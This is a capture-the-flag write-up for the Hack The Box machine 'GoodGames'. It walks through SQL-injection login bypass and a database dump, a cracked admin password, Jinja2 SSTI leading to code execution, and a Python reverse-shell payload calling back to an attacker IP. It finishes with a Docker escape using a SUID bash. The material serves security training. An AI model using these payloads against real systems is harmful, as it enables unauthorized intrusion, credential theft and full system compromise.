 ![](goodgames_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.130 goodGames.htb

**nmap scan:**
```bash
PORT   STATE SERVICE  VERSION
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-title: GoodGames | Community and Store
```

* Hostname: `GoodGames.HTB`

A normal looking web app talking about video games

![](screenshots/web-front.png)

There is a option for signup/login

![](screenshots/web-signup.png)

There is really simple sql injection in email parameter to bypass login and get admin 

![](screenshots/sqli-login.png)

After login, there is a extra settings icon in top right corner which redirect to a subdomain `internal-administration.goodgames.htb`

Another login page form subdomain

![](screenshots/sub-login.png)

# Foothold

## SQLi

back to the login sql injection, There's a reflacted field in login

![](screenshots/login-union-injection.png)

Dump database

* database_name: main
* table: user
* column: id,email,password,name

```
' UNION SELECT ALL 1,2,3,group_concat(id,":",email,":",password,":",name) from main.user#
```

![](screenshots/dump-login-creds.png)


password cracked with john using rockyou.txt
```
1:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec:admin:superadministrator
```

And these creds resue in subdomain Flask Dashboard

![](screenshots/volt-logged-in.png)


## SSTI

In the volt dashboard, found SSTI(Server-Side Template Injection) in `/settings` reflacted in the user's profile name

![](screenshots/ssti-in-name.png)

* From nmap scan, this is a Python server so template framework is possibly jinja2.


Payload form [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-subprocesspopen)
```python
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

![](screenshots/ssti-rce.png)

Get reverse shell with [pyaload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)
```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.37\",4141));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Get root shell inside docker container.

# Privesc

## Docker escape

Running [deepce.sh](https://github.com/stealthcopter/deepce) script, find host mounts
```bash
====================================( Enumerating Mounts )====================================
[+] Docker sock mounted ....... No
[+] Other mounts .............. Yes
/home/augustus /home/augustus rw,relatime - ext4 /dev/sda1 rw,errors=remount-ro
[+] Possible host usernames ... augustus rw,relatime - ext4 
```

`/home/augustus` directory contains user flag and user `augustus` in not in the docker container.

Host is reachable from container and running ssh

![](screenshots/ssh-verify.png)


ssh to host using reused password `superadministrator` for user "augustus"

![](screenshots/ssh-to-host.png)


## Host mount inside docker

We know that `/home/augustus` mounted in the container and we are root in the container.

That means we can create any file or edit any file inside `/home/augustus` directory as root.

just copy host bash binary in user's directory and give suid permission as root from container.

```bash
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
root@3a453ab39d3d:/home/augustus$ chown root:root bash
root@3a453ab39d3d:/home/augustus$ chmod +s bash
root@3a453ab39d3d:/home/augustus$ ssh augustus@172.19.0.1
augustus@GoodGames:~$ ./bash -p
```

![](screenshots/rooted.png)